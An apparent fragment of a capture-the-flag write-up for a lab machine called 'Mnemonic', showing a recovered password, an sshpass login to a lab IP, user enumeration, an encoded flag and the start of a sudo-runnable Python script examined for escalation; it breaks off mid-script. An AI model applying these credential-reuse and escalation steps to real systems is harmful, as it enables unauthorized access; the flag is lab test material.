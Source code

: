 ```bash
Please enter the file Path:~/Mnemonic/6450.txt
 
 
 
pasificbell1981
 
 
PRESS TO QU\u0130T 'ENTER' OR 'E' PRESS TO CONT\u0130NUE.

```

<br>

<p>Used sshpass this time to learn.</p>

```bash
:~/Mnemonic# apt install sshpass
Reading package lists... Done
Building dependency tree       
Reading state information... Done
...
:~/Mnemonic# sshpass -p "pasificbell1981" ssh -p 1337 condor@10.10.2.180
...
condor@mnemonic:~$ id
uid=1002(condor) gid=1002(condor) groups=1002(condor)
condor@mnemonic:~$ pwd
/home/condor
condor@mnemonic:~$ ls
'aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw=='
''\''VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ=='\'''
condor@mnemonic:~$ sudo -l
[sudo] password for condor: 
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
condor@mnemonic:~$ cat /bin/examplecode.py
#!/usr/bin/python3
import os
import time
import sys
def text(): #text print 


	print("""

	------------information systems script beta--------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	---------------------------------------------------
	----------------@author villwocki------------------""")
	time.sleep(2)
	print("\nRunning...")
	time.sleep(2)
	os.system(command="clear")
	main()


def main():
```